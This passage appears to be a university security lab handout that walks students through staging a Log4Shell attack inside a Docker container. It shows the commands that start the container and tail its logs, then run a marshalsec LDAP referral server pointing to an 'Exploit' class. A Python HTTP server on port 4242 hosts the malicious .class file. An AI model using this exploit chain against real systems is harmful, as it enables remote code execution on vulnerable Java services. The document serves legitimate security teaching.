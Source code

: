 In the home directory of log4j user, start the container with the start script:

  ./StartContainer.sh

Open a new terminal window and go to “Desktop/log4shell/logs”:

  cd Desktop/log4shell/logs

Run the following command to view the logs:

  tail -f cs6035.log

OR to view System.out.println messages:

  tail -f console.log

You should now see the tail of the log file from the application running.

alt text

**If the logs stop populating, then just stop and restart the tail. This is happening because the data logged gets too large so the log “rolls over” to another file.**

1. Run the LDAP Server:
Open a new terminal window and run the following command to set the current directory to “Desktop/log4shell/target”:

  cd ~/Desktop/log4shell/target

Next, start the LDAP server by running:

  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.0.1:4242/#Exploit"

The IP you will be using is below. This is NOT the localhost IP address but the docker host.

  172.17.0.1

It is very important that this matches the port specified in the Malicious server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct.

You should see the following output:

A terminal window displaying a command execution to start an LDAP server and the output indicates the server is listening on `0.0.0.0:1389`

2. Run the Malicious Server:
Open a new terminal and make sure the active directory is the directory that contains your malicious .class file. For simplicity, we have created “Desktop/log4shell/{flag_no}” for you to work in. Do not leave this directory. Run the server in “Desktop/log4shell/{flag_no}” by the following command:

  python3 -m http.server 4242 

It is very important that this matches the port specified in the LDAP server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct You should see the following output:

Terminal showing a Python command starting an HTTP server on port 4242, with output confirming the server is running

3. Read data that is flowing on the network (This step is required for Flag 2 but is optional for the rest):
Open a terminal and run:

